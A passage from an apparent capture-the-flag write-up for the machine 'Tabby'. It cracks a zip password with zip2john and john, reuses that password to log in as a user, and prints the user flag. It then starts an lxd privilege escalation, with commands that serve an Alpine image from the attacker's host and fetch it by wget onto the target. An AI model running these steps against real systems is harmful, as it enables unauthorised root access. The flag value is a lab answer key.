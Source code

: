 It needs some password we don't know. So let's use `zip2john` to get the hash and then crack it.
```bash
zip2john backup.zip > hash
john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (backup.zip)
1g 0:00:00:01 DONE (2024-09-09 19:01) 0.7575g/s 7856Kp/s 7856Kc/s 7856KC/s adornadis..adamsapple:)1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
So the password is
 admin@it
Exploring the `.zip` file there is nothing interesting. We can use this password to try to login as `ash` and it works!
User Flag is:
```
fa4cbf19892c8bbb002e9042a35b333a
```
now for privilege escalation
```bash
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
Searching all that only with `lxd` we are able to do privilege escalation
I will be using this ![hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
and also ![hackingarticles](https://www.hackingarticles.in/lxd-privilege-escalation/)
Only one didn't work for me so i combined them and got root shell
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python -m http.server 80
```
Now on machine
```bash
cd /tmp
wget 10.10.16.11/alpine-v3.20-x86_64-20240909_2042.tar.gz
lxc image import ./alpine-v3.20-x86_64-20240909_2042.tar.gz --alias myimage
ash@tabby:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| myimage | 05ec247da965 | no     | alpine v3.20 (20240909_20:42) | x86_64       | CONTAINER | 3.68MB | Sep 9, 2024 at 4:47pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
```
